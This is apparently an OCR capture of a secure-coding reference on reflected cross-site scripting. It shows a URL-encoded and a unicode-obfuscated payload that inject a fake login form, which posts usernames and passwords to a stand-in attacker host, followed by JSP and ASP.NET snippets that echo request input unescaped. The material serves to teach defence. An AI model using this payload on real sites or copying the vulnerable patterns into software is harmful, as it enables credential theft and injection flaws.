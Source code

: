 ```php
%22+name%3D%22username%22+%2F%3E%3Cbr%2F%3EPassword%3A  
+%3Cinput+type%3D%22password%22+name%3D%22password%22  
+%2F%3E%3Cinput+type%3D%22submit%22+value%3D%22Login%22  
+%2F%3E%3C%2Fform%3E%3C%2Fdiv%3E%0D%0A

// The same attack string could also be obfuscated as:

(attack code)

trustedSite.example.com/welcome.php?username=<script+type="text/javascript">  
document.write('u003Cu0064u0069u0076u0020u0069u0064u003Du0022u0073  
u0074u0065u0061u006Cu0050u0061u0073u0073u0077u006Fu0072u0064  
u0022u003Eu0050u006Cu0065u0061u0073u0065u0020u004Cu006Fu0067  
u0069u006Eu003Au003Cu0066u006Fu0072u006Du0020u006Eu0061u006D  
u0065u003Du0022u0069u006Eu0070u0075u0074u0022u0020u0061u0063  
u0074u0069u006Fu006Eu003Du0022u0068u0074u0074u0070u003Au002F  
u002Fu0061u0074u0074u0061u0063u006Bu002Eu0065u0078u0061u006D  
u0070u006Cu0065u002Eu0063u006Fu006Du002Fu0073u0074u0065u0061  
u006Cu0050u0061u0073u0073u0077u006Fu0072u0064u002Eu0070u0068  
u0070u0022u0020u006Du0065u0074u0068u006Fu0064u003Du0022u0070  
u006Fu0073u0074u0022u003Eu0055u0073u0065u0072u006Eu0061u006D  
u0065u003Au0020u003Cu0069u006Eu0070u0075u0074u0020u0074u0079  
u0070u0065u003Du0022u0074u0065u0078u0074u0022u0020u006Eu0061  
u006Du0065u003Du0022u0075u0073u0065u0072u006Eu0061u006Du0065  
u0022u0020u002Fu003Eu003Cu0062u0072u002Fu003Eu0050u0061u0073  
u0073u0077u006Fu0072u0064u003Au0020u003Cu0069u006Eu0070u0075  
u0074u0020u0074u0079u0070u0065u003Du0022u0070u0061u0073u0073  
u0077u006Fu0072u0064u0022u0020u006Eu0061u006Du0065u003Du0022  
u0070u0061u0073u0073u0077u006Fu0072u0064u0022u0020u002Fu003E  
u003Cu0069u006Eu0070u0075u0074u0020u0074u0079u0070u0065u003D  
u0022u0073u0075u0062u006Du0069u0074u0022u0020u0076u0061u006C  
u0075u0065u003Du0022u004Cu006Fu0067u0069u006Eu0022u0020u002F  
u003Eu003Cu002Fu0066u006Fu0072u006Du003Eu003Cu002Fu0064u0069u0076u003Eu000D');</script>

// Both of these attack links will result in the fake login box appearing on the page, and users are more likely to ignore indecipherable text at the end of URLs.
```


```jsp
<!-- Example 2
This example also displays a Reflected XSS (Type 1) scenario.
The following JSP code segment reads an employee ID, eid, from an HTTP request and displays it to the user.
Example Language: JSP  -->

<% String eid = request.getParameter("eid"); %>  
...  
Employee ID: <%= eid %>

<!-- The following ASP.NET code segment reads an employee ID number from an HTTP request and displays it to the user. -->

(bad code)

Example Language: ASP.NET 

<%  
protected System.Web.UI.WebControls.TextBox Login;  
protected System.Web.UI.WebControls.Label EmployeeID;  
...  
EmployeeID.Text = Login.Text;  
%>  

```